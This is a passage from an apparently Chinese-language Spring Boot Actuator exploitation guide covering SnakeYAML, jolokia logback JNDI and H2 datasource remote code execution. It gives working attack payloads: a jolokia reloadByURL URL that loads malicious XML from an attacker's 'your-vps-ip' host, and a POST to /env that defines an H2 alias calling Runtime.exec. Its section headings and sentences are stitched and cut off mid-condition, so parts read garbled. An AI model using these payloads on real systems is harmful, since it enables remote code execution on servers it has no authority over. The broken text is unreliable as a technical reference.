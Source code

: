 ### [](#0x02spring-cloud-snakeyaml-rce)0x02：spring cloud SnakeYAML RCE

#### [](#利用条件-5)利用条件：

* 可以 POST 请求目标网站的 `/env` 接口设置属性
* 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
* 目标依赖的 `spring-cloud-starter` 版本  ⚠️ 如果目标成功请求了example.xml 并且 marshalsec 也接收到了目标请求，但是目标没有请求 JNDIObject.class，大概率是因为目标环境的 jdk 版本太高，导致 JNDI 利用失败。

替换实际的 your-vps-ip 地址访问 URL 触发漏洞：

```
/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/your-vps-ip!/example.xml

```

#### [](#漏洞原理-3)漏洞原理：

1. 直接访问可触发漏洞的 URL，相当于通过 jolokia 调用 `ch.qos.logback.classic.jmx.JMXConfigurator` 类的 `reloadByURL` 方法
2. 目标机器请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容
3. 目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
4. xml 文件中利用 `logback` 依赖的 `insertFormJNDI` 标签，设置了外部 JNDI 服务器地址
5. 目标机器请求恶意 JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞

#### [](#漏洞分析-3)漏洞分析：

​ [spring boot actuator rce via jolokia](https://xz.aliyun.com/t/4258)

#### [](#漏洞环境-3)漏洞环境：

[repository/springboot-jolokia-logback-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce)

正常访问：

```
http://127.0.0.1:9094/env

```

### [](#0x05jolokia-realm-jndi-rce)0x05：jolokia Realm JNDI RCE

#### [](#利用条件-8)利用条件：

* 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
* 目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
* 目标可以请求攻击者的服务器（请求可出外网）
* JNDI 注入受目标 JDK 版本影响，jdk  ⚠️ 下面payload 中的 'T5' 方法每一次执行命令后都需要更换名称 (如 T6) ，然后才能被重新创建使用，否则下次 restart 重启应用时漏洞不会被触发

spring 1.x（无回显执行命令）

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.hikari.connection-test-query=CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');

```
